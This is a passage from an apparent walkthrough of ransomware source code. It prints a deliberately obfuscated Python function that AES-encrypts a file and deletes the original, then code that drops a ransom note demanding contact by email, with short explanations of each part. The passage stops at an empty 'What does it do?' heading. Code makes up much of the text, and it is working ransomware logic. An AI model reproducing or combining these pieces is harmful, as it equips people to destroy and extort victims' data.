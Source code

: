 * * *

### **b. File Encryption (**`**prc_f**`**)**

    # Function to encrypt files (Obfuscated)
    def prc_f(f, k):
        try:
            chk_k(k)
            
            with open(f, 'rb') as fo:
                data = fo.read()
    
            cipher = AES.new(k, AES.MODE_EAX)
            ct, tag = cipher.encrypt_and_digest(data)
    
            with open(f + ".enc", 'wb') as ef:
                [ef.write(x) for x in (cipher.nonce, tag, ct)]
    
            os.remove(f)
            print(f"File '{f}' encrypted and removed.")
        except FileNotFoundError:
            logging.error(f"File not found: {f}")
        except PermissionError:
            logging.error(f"Permission denied: {f}")
        except ValueError as ve:
            logging.error(f"Validation error: {ve}")
        except Exception as e:
            logging.error(f"Error encrypting {f}: {e}")
    

### **What does it do?**

*   Reads the file content.

*   Encrypts the content using AES in EAX mode.

*   Saves the encrypted file with the `.enc` extension.

*   Removes the original file.

### **Why is it used?**

The EAX mode provides authentication and confidentiality, ensuring that files cannot be decrypted without the correct key.

* * *

### **4\. Ransom Note**

    msg = "".join(["# YOUR FILES HAVE BEEN", " ENCRYPTED! Contact", " us at ", "email@example.com"])
    with open(os.path.join(d, "RANSOM_NOTE.txt"), "w") as rf:
        rf.write(msg)
    

### **What does it do?**
